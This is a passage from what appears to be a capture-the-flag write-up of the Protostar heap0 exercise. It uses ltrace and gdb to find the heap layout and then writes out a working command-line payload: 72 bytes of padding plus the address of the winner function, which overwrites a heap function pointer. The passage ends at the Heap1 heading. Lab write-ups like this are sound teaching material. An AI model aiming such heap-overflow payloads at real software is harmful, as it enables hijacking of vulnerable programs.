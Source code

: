From a quick peek to the source code, we can see that our first argument can overflow the d->name buffer (64bytes) and so overwrite the f->fp pointer.

If we run the program with **ltrace** we will be able to analyze **malloc** calls:

```lang-bash line-numbers 
user@protostar:~$ ltrace /opt/protostar/bin/heap0 `perl -e 'print "A"*64'`
__libc_start_main(0x804848c, 2, 0xbffff874, 0x8048520, 0x8048510 <unfinished ...>
malloc(64)                                                                                    = 0x0804a008
malloc(4)                                                                                     = 0x0804a050
printf("data is at %p, fp is at %p\n", 0x804a008, 0x804a050data is at 0x804a008, fp is at 0x804a050
)                                  = 41
strcpy(0x0804a008, "0")                                                                       = 0x0804a008
puts("level has not been passed"level has not been passed
)                                                             = 26
+++ exited (status 26) +++
```

Ok, so the f->fp address is **0x0804a050** and the beginning of our d->data buffer is at **0x0804a008**. So if we fill d->data with 72 bytes  (0x0804a050 - 0x0804a008) the next 4 bytes will overwrite f->fp

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/heap0
Reading symbols from /opt/protostar/bin/heap0...done.
(gdb) run `perl -e 'print "A"x72 ."BBBB"'`
Starting program: /opt/protostar/bin/heap0 `perl -e 'print "A"x72 ."BBBB"'`
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Nice!, lets use our winner address:

```lang-bash line-numbers 
user@protostar:~$ objdump -t /opt/protostar/bin/heap0 | grep winner
08048464 g     F .text	00000014              winner
08048478 g     F .text	00000014              nowinner
```

and ...

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/heap0 `perl -e 'print "A"x72 ."\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Heap1
In [Heap1](http://www.exploit-exercises.com/protostar/heap1) we are given the following vulnerable code:
